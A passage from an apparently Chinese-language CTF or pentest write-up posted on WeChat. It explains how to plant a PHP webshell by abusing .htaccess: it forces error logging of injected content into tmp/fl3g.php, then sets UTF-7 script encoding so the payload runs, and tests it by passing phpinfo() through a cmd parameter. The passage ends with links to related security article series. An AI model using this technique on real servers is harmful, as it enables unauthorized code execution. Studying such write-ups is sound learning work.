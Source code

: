 这里第二行 error\_reporting 32767 的意思是设置报告级别为 32767，使得报告出所有可能出现的错误，确保我们可以写入木马。

我们将其 url 编码传参写入，然后会报错一些错。

![](https://mmbiz.qpic.cn/mmbiz_png/Go7NSXrKWd6Jd36S86K7pfK7YG3YwoibbHgtrqMqNGpFnluBF0A6QrVaY26Hy7CQtmMCYzjrXQY58ibXEIFRoXFQ/640?wx_fmt=png)

我们再回头看看我们文件里面生成了什么？  

![](https://mmbiz.qpic.cn/mmbiz_png/Go7NSXrKWd6Jd36S86K7pfK7YG3Ywoibby36077jcTibSDKw4icyZGVG4qjYWOwMbDNgbCeyoVApc2QvXiazNthicQg/640?wx_fmt=png)

可以发现在 tmp 目录已经成功生成了 fl3g.php 文件，并写入了我们之前在 include\_path 设置的内容。但是还有一个问题就是要将里面的内容进行 UTF-7 解码，这里就很简单了，直接再上传一个. htaccess 内容如下：  

```
php\_value include\_path "D:\\phpStudy\\PHPTutorial\\WWW\\tmp"php\_value zend.multibyte 1php\_value zend.script\_encoding "UTF-7"# \\
```

并给 cmd 传参 phpinfo( );，成功利用。

一如既往的学习，一如既往的整理，一如即往的分享。感谢支持![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)

**【好书推荐】**

![](https://mmbiz.qpic.cn/mmbiz_png/ffq88LJJ8oPhzuqa2g06cq4ibd8KROg1zLzfrh8U6DZtO1oWkTC1hOvSicE26GgK8WLTjgngE0ViaIFGXj2bE32NA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/x1FY7hp5L8Hr4hmCxbekk2xgNEJRr8vlbLKbZjjWdV4eMia5VpwsZHOfZmCGgia9oCO9zWYSzfTSIN95oRGMdgAw/640?wx_fmt=gif)

[2020hw 系列文章整理（中秋快乐、国庆快乐、双节快乐）](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247492405&idx=1&sn=c84692daf6077f5cc7c348d1e5b3a349&chksm=f9e38c6ece9405785260b092d04cfb56fec279178d4efcd34bf8121b89a28885bf20568cdfda&scene=21#wechat_redirect)  

[HW 中如何检测和阻止 DNS 隧道](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247492405&idx=2&sn=7afccd524c176b4912526d8f5d58dc3a&chksm=f9e38c6ece940578b5a4f0f102fa5a20b6facee51f23e3fa25598e9e7257c798180edcdf5802&scene=21#wechat_redirect)

[ctf 系列文章整理](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247493664&idx=1&sn=40df204276e9d77f5447a0e2502aebe3&chksm=f9e3877bce940e6d0e26688a59672706f324dedf0834fb43c76cffca063f5131f87716987260&scene=21#wechat_redirect)

[日志安全系列 - 安全日志](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247494122&idx=1&sn=984043006a1f65484f274eed11d8968e&chksm=f9e386b1ce940fa79b578c32ebf02e69558bcb932d4dc39c81f4cf6399617a95fc1ccf52263c&scene=21#wechat_redirect)

[【干货】流量分析系列文章整理](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247494242&idx=1&sn=7f102d4db8cb4dddb5672713803dc000&chksm=f9e38539ce940c2f488637f312fb56fd2d13a3dd57a3a938cd6d6a68ebaf8806b37acd1ce5d0&scene=21#wechat_redirect)

[【干货】超全的 渗透测试系列文章整理](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247494408&idx=1&sn=75b61410ecc5103edc0b0b887fd131a4&chksm=f9e38453ce940d450dc10b69c86442c01a4cd0210ba49f14468b3d4bcb9d634777854374457c&scene=21#wechat_redirect)

[【干货】持续性更新 - 内网渗透测试系列文章](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247494623&idx=1&sn=f52145509aa1a6d941c5d9c42d88328c&chksm=f9e38484ce940d920d8a6b24d543da7dd405d75291b574bf34ca43091827262804bbef564603&scene=21#wechat_redirect)  

[【干货】android 安全系列文章整理](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247494707&idx=1&sn=5b2596d41bda019fcb15bbfcce517621&chksm=f9e38368ce940a7e95946b0221d40d3c62eeae515437c040afd144ed9d499dcf9cc67f2874fe&scene=21#wechat_redirect)
